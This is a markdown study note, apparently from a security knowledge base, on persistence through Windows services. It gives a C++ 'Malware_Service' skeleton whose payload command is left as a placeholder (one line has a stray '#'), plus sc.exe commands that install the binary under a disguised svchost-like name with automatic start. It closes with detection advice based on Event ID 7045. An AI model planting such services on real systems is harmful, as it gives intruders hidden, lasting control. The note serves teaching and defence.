

> [!abstract] Persistence via Windows Services
> Windows Services are long-running executable applications that run in their own sessions. They can be configured to start automatically when the computer boots (before any user logs in), making them a prime target for malware persistence and privilege escalation (often running as `NT AUTHORITY\SYSTEM`).
> **MITRE ATT&CK Mapping:** [T1543.003 - Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)

## How Windows Services Work

> [!info] The Service Control Manager (SCM) Flow
> A service executable is not a standard background process; it must interact directly with the Windows Service Control Manager (SCM). When the SCM starts your executable, it expects the program to immediately connect to the SCM and provide a `ServiceMain` entry point.



---

## C++ Code: Service Payload

> [!example]+ Code: Malware_Service.cpp
> This code implements a basic Windows Service. When started by the SCM, it will execute a payload defined in the `Run()` function and then keep the service alive in a sleeping state.
> 
> ```cpp
> #include <windows.h>
> 
> SERVICE_STATUS_HANDLE hStatus;
> SERVICE_STATUS status;
> 
> void WINAPI Handler(DWORD ctrl) {
>     if (ctrl == SERVICE_CONTROL_STOP) {
>         status.dwCurrentState = SERVICE_STOPPED;
>         SetServiceStatus(hStatus, &status);
>     }
> }
> void Run() {
> STARTUPINFO si = { sizeof(si) };
>     PROCESS_INFORMATION pi = { 0 };
>     
>     #char cmd[] = "Fixme"; //change it according to your location
>     CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
>     WaitForSingleObject(pi.hProcess, INFINITE);
>     CloseHandle(pi.hProcess);
> }
> void WINAPI ServiceMain(DWORD argc, LPTSTR *argv) {
> hStatus = RegisterServiceCtrlHandler("Malware_Service", Handler);
> 
>     status.dwServiceType = SERVICE_WIN32_OWN_PROCESS;
>     status.dwCurrentState = SERVICE_RUNNING;
>     status.dwControlsAccepted = SERVICE_ACCEPT_STOP;
>     SetServiceStatus(hStatus, &status);
> Run();
>     while (status.dwCurrentState == SERVICE_RUNNING)
>         Sleep(1000); // Do nothing
> }
> 
> int main() {  
>     SERVICE_TABLE_ENTRY table[] = {
>         {"Malware_Service", ServiceMain},
>         {NULL, NULL}
>     };
>     StartServiceCtrlDispatcher(table);
>     return 0;
> }
> ```

> [!tip] Code Explanation (How it works)
> 1. `main()`: The entry point of the executable. It sets up a `SERVICE_TABLE_ENTRY` array mapping the service name ("Malware_Service") to the `ServiceMain` function. It then calls `StartServiceCtrlDispatcher`, which connects the process to the SCM and blocks until the service stops.
> 2. `ServiceMain()`: This is the actual entry point for the service itself. It first registers a `Handler` function to process SCM commands (like Stop). It sets the service status to `SERVICE_RUNNING` and then calls the `Run()` function to execute the payload. After `Run()` finishes, it enters an infinite `Sleep` loop to keep the service process alive.
> 3. `Run()`: The malicious payload function. It uses `CreateProcess` to spawn an external executable (defined by the `cmd` variable) and waits for it to complete.
> 4. `Handler()`: Processes control requests from the SCM. If the SCM sends a `SERVICE_CONTROL_STOP` command, it updates the service status to `SERVICE_STOPPED`, which allows the `StartServiceCtrlDispatcher` in `main()` to unblock and the process to exit cleanly.

---

## Deployment & Detection

> [!warning] How to Install the Service
> Compiling this code gives you an `.exe`, but it is not an active service until it is registered with the SCM. Attackers typically use the native `sc.exe` binary to create and start the service:
> 
> ```cmd
> :: Copy the payload to a discreet location
> copy Malware_Service.exe C:\Windows\Temp\svchost_helper.exe
> 
> :: Create and start the service (requires Admin privileges)
> sc create "Malware_Service" binPath= "C:\Windows\Temp\svchost_helper.exe" start= auto
> sc start "Malware_Service"
> ```

> [!success] Defensive Detection (Event ID 7045)
> When a new service is created, Windows logs **Event ID 7045** (A new service was installed in the system) in the System event log. Defenders should heavily monitor this event, especially when the `ServiceType` is `Own Process` and the `ImagePath` points to a non-standard or writable directory like `C:\Windows\Temp\` or `C:\Users\Public\`.

